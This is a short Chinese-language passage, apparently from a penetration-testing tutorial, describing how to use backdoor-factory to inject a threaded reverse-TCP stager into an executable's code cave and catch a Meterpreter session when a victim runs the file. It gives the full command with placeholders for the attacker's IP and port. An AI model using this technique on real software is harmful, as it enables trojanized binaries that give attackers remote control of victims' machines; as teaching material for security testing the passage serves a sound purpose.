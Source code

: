 然后我们将使用`iat_reverse_tcp_stager_threaded`：

```
backdoor-factory –f <path to binary> -s iat_reverse_tcp_stager_threaded –H <our IP> -P <Port>
```

![](img/a65a4970-36ad-4ef9-b3b5-61f1cfb336c9.png)

接下来，我们选择要用于注入有效负载的洞穴：

![](img/a944b432-52de-461f-95fb-32b4f38b2a4c.png)

我们的二进制文件已经创建，可以部署了。

现在我们需要做的就是运行一个处理程序，该处理程序将接受来自负载的反向连接：

![](img/d3b2866d-9401-481b-b5ab-72826746f7f8.png)

现在当`.exe`在受害者机器上执行时，我们将连接我们的计量表：

![](img/3a28c4ee-e63c-4c2b-bd73-875bad8e59bf.png)